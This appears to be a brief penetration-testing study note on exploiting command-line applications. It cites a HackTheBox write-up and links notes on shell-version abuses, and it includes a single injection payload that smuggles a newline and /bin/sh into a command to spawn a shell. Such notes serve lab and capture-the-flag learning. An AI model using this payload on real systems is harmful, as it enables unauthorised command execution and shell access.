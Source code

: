```yaml
---
tags:
  - Exploitation
  - KnownExploits
  - Applications
---
```


# Exploiting Command Line Applications

See [Node write-up by Alamot](https://forum.hackthebox.com/t/node-write-up-by-alamot/475)
Add the command to the end of the command line run:
``"$(printf '\n/bin/sh\necho OK')"``

# Version <4.2–048

See [[Abusing Shell Features#14]]

# Version <4.4

See [[Abusing Shell Features#15]]
